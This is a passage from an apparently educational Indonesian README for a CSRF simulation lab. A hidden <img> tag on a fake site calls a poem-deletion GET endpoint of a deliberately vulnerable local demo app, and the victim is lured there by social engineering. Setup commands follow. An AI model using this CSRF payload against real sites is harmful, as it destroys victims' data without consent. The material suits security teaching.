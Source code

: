 ## Simulation 2 - Puisi Kita

Untuk melakukan serangan CSRF pada akun Mas Boy dan menghapus puisinya, dilakukan dengan membuat sebuah fake website yang didalamnya secara tidak terlihat terdapat sebuah &lt;img&gt; tag yang melakukan request ke end point penghapusan puisi. End point tersebut adalah:

```
GET /puisiku/?id=HASH&delete
```

Yang perlu dilakukan adalah melakukan social engineering agar Mas Boy mengunjungi fake website yang telah dibuat. Fake website tersebut mengandung tag &lt;img&gt; sebagai berikut:

```
<img src="http://localhost:8082/puisiku/?id=HASH&delete" style="visibility:hidden;">
```

Dimana `HASH` adalah ID dari puisi Mas Boy yaitu &quot;Nusantara Tercinta&quot;. Hal ini dapat diketahui dengan melakukan klik pada judul puisi &quot;Nusantara Tercinta&quot; atau langsung _view HTML source_ halaman depan.

## Menjalankan Simulasi

Download atau clone repository dari GitHub.

```
$ git clone git@github.com:rioastamal-examples/phpid-xss-csrf-simulation.git
```

Jalankan website target yaitu &quot;Puisi Kita&quot; pada port 8082.

```
$ cd phpid-xss-csrf-simulation
$ php -S 0.0.0.0:8082 \
-t phpid-xss-csrf-simulation/simulation-02/puisikita-website/public \
phpid-xss-csrf-simulation/simulation-02/puisikita-website/public/index.php
```

Pada terminal window lain jalankan Fake website untuk melakukan CSRF.

```
$ php -S 0.0.0.0:8083 \
-t phpid-xss-csrf-simulation/simulation-02/hacker-website/public \
phpid-xss-csrf-simulation/simulation-02/hacker-website/public/index.php
```

Untuk detil cara menjalankan serangan silahkan baca pada slide presentasi.